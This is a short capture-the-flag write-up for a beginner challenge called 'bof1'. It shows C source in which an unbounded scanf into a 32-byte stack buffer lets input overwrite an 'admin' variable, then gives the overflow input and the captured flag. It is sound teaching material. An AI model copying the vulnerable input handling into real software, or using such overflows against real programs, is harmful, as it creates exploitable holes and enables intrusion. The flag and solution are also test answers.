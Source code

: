 # bof1

## Pwn that buffer!

Both a binary and a C source file were given.

```
#include <stdio.h>
#include <stdlib.h>

void win(void) {
	char flag[64];
	
	FILE* fp = fopen("flag.txt", "r");
	if(!fp) {
		puts("error, contact admin");
		exit(0);
	}
	
	fgets(flag, sizeof(flag), fp);
	fclose(fp);
	puts(flag);
}

int main(void) {
	int admin = 0;
	char buf[32];
	
	scanf("%s", buf);
	
	if(admin) {
		win();
	}
	else {
		puts("nope!");
	}
	
	return 0;
}
```
To capture the flag, we need to change the value of ```admin``` which is stored on the stack. Thankfully, ```scanf()``` does not check for the size of the input, so we can just overflow the buffer, which is also stored on the stack, using a string longer than 32 characters.

**Solution**
```
./bof1 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

**Flag**
flag{my_first_buffer_overflow!}
